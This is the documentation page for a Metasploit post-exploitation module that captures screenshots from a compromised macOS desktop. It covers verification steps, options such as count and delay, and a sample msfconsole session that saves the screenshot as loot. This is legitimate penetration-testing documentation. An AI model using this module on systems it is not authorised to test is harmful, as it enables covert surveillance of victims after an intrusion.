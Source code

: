 ## Vulnerable Application

This module takes screenshots of target desktop and automatically downloads them.

## Verification Steps

  1. Start msfconsole
  2. Get a shell, user level is fine
  3. Do: ```use post/osx/capture/screen```
  5. Do: ```set session #```
  5. Do: ```run```
  6. You should have a screenshot saved to loot

## Options

  **COUNT**
  The number of screenshots to collect.  Default is `1`.

  **DELAY**
  Interval between screenshots in seconds. 0 for no delay.  Default is `10`.

  **EXE_PATH**
  Path to remote screencapture executable.  Default is `/usr/sbin/screencapture`

  **FILETYPE**
  File format to use when saving a snapshot (Accepted: png, gif).  Default is `png`.

  **TMP_PATH**
  Path to remote temp directory.  Default is `/tmp/<random>`

## Scenarios

### User level shell on OSX 10.14.4

```
msf5 post(osx/capture/keylog_recorder) > use post/osx/capture/screen 
msf5 post(osx/capture/screen) > set session 1
session => 1
msf5 post(osx/capture/screen) > run

[*] Capturing 1 screenshots with a delay of 10 seconds
[*] Screen Capturing Complete
[*] Use "loot -t screen_capture.screenshot" to see file locations of your newly acquired loot
[*] Post module execution completed
msf5 post(osx/capture/screen) > loot -t screen_capture.screenshot

Loot
====

host           service  type                       name              content     info        path
----           -------  ----                       ----              -------     ----        ----
222.222.2.222           screen_capture.screenshot  screenshot.0.png  image/png   Screenshot  /loot/20190414205923_default_222.222.2.222_screen_capture.s_194117.png
```
